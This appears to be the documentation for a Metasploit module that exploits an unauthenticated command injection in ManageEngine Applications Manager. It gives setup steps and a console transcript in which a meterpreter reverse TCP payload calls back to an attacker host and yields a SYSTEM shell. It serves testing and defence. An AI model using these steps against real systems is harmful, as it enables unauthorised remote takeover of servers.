## Vulnerable Application

This module exploits command injection vulnerability in the ManageEngine Applications Manager product. An unauthenticated user can execute a operating system command under the context of privileged user. Publicly accessible testCredential.do endpoint takes multiple user inputs and validates supplied credentials by accessing given system. This endpoint calls a several internal classes and then executes powershell script without validating user supplied parameter when the given system is OfficeSharePointServer.

**Vulnerable Application Installation Steps**

Go to following website and download Windows version of the product. It comes with built-in Java and Postgresql so you don't need to install anything else.
[http://archives.manageengine.com/applications_manager/13630/](http://archives.manageengine.com/applications_manager/13630/)

## Verification Steps

A successful check of the exploit will look like this:

* Start `msfconsole`
* `use exploit/windows/http/manageengine_appmanager_exec`
* Set `RHOST <RHOST>`
* Set `PAYLOAD windows/meterpreter/reverse_tcp`
* Set `LHOST <LHOST>`
* Run `check`
* **Verify** that you are seeing `The target is vulnerable.` in console.
* Run `exploit`
* **Verify** that you are seeing `Triggering the vulnerability` in console.
* **Verify** that you are seeing `Sending stage to <TARGET>` in console.
* **Verify** that you have your shell.

## Scenarios

```
msf5 > 
msf5 > use exploit/windows/http/manageengine_appmanager_exec 
msf5 exploit(windows/http/manageengine_appmanager_exec) > set RHOST 12.0.0.192
RHOST => 12.0.0.192
msf5 exploit(windows/http/manageengine_appmanager_exec) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/http/manageengine_appmanager_exec) > set LHOST 12.0.0.1
LHOST => 12.0.0.1
msf5 exploit(windows/http/manageengine_appmanager_exec) > check
[+] 12.0.0.192:9090 The target is vulnerable.
msf5 exploit(windows/http/manageengine_appmanager_exec) > run

[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] Trigerring the vulnerability
[*] Sending stage (179779 bytes) to 12.0.0.192

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
